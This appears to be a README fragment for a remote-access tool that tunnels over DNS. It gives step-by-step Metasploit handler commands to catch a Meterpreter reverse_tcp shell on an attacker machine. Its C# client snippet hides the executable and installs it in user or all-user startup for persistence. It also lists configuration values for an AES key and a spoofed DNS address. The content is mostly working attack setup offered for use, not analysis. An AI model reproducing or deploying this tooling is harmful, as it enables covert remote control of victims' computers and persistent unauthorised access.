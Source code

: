```nslookup -timeout=4 -retry=2 10.0.0.0 192.168.1.105```
you(attacker) to set up a listener first, the target machine acts as a client connecting to
that listener, and as discussed above the attacker receives the shell.

- Accept only on reverse_tcp connection
    - Open a terminal
    - msfconsole
    - use exploit/multi/handler
        - set PAYLOAD windows/meterpreter/reverse_tcp
        - set LHOST <IP Address of Kali Linux>
        - set PORT 1337
    - show options to confirm settings
    - ![Session](https://github.com/PanagiotisDrakatos/RArAtikTdkA/tree/main/images/session.png)
    - exploit
    - ![Session1](https://github.com/PanagiotisDrakatos/RArAtikTdkA/tree/main/images/session1.png)

## Client-Installation

### Tutorial

Now let's talk for the client side and dive into more details before executing the program.
Firstly, navigate to this ```Form1.cs``` file and make sure you comment  this piece code if you
don't want the program to run on startup.

```C#
  String hiddenpath = System.Reflection.Assembly.GetExecutingAssembly().Location;
  FileInfo f = new FileInfo(hiddenpath);
  f.Attributes = FileAttributes.Hidden;
  if (StartUpManager.IsUserAdministrator())
  {
      String b = StartUpManager.checkExistanceFromAllUserStartup();
      if (b == null)
      {
          StartUpManager.AddApplicationToAllUserStartup(hiddenpath);
      }
  }
  else
  {
      String b = StartUpManager.checkExistanceFromCurrentUserStartup();
      if (b == null)
      {
          StartUpManager.AddApplicationToCurrentUserStartup(hiddenpath);
      }
  }
 ```

To continue in the same file change these variables based on your settings.

```C#
public static string AES_KEY = "my_key";

public static string DNS_PREFIX = "10.0.";

public static string DNS_SPOOF_ADDRESS = "192.168.1.105";
```
